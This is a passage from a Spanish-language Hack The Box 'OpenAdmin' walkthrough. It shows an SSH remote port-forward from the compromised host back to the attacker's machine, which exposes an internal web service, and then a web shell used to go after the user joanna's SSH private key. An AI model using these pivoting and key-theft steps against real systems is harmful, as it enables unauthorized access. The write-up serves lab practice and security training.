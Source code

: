 Hacemos el ***Remote Port Forwarding***:

```bash
jimmy@openadmin:/var/www/internal$ ssh -R 52846:127.0.0.1:52846 k4miyo@10.10.14.27 -p 2222
The authenticity of host '[10.10.14.27]:2222 ([10.10.14.27]:2222)' can't be established.
ECDSA key fingerprint is SHA256:X+58wT4JhCZo1JHA1IfaUg4HqR7NmOzkqFouwQwkYu0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.14.27]:2222' (ECDSA) to the list of known hosts.
k4miyo@10.10.14.27's password: 
Linux k4mipc 5.14.0-2parrot1-amd64 #1 SMP Debian 5.14.6-2parrot1 (2021-09-25) x86_64
 ____                      _     ____            
|  _ \ __ _ _ __ _ __ ___ | |_  / ___|  ___  ___ 
| |_) / _` | '__| '__/ _ \| __| \___ \ / _ \/ __|
|  __/ (_| | |  | | | (_) | |_   ___) |  __/ (__ 
|_|   \__,_|_|  |_|  \___/ \__| |____/ \___|\___|
                                                 



The programs included with the Parrot GNU/Linux are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Parrot GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov 28 21:14:59 2021 from 10.10.10.43
░▒▓    ~  ✔  with k4miyo@k4mipc ▓▒░ 
```

Validamos que el puerto 52846 se encuentra abierto en nuestra máquina:

```bash
❯ lsof -i:52846
COMMAND    PID   USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
sshd    635608 k4miyo   10u  IPv6 2028358      0t0  TCP localhost:52846 (LISTEN)
sshd    635608 k4miyo   11u  IPv4 2028359      0t0  TCP localhost:52846 (LISTEN)
```

Ahora nos abrimos el navegador hacia dicho puerto y apuntamos a nuestra shell:

![""](/assets/images/htb-openadmin/openadmin-web4.png)

Podemos ejecutar comandos como el usuario **joanna** y como pista si checamos el contenido del archivo `main.php`, nos dice que dicho usuario tiene su archivo `id_rsa`; por lo tanto, vamos a tratar de obtenerlo para posteriormente tratar de ingresar puerto el puerto 22.

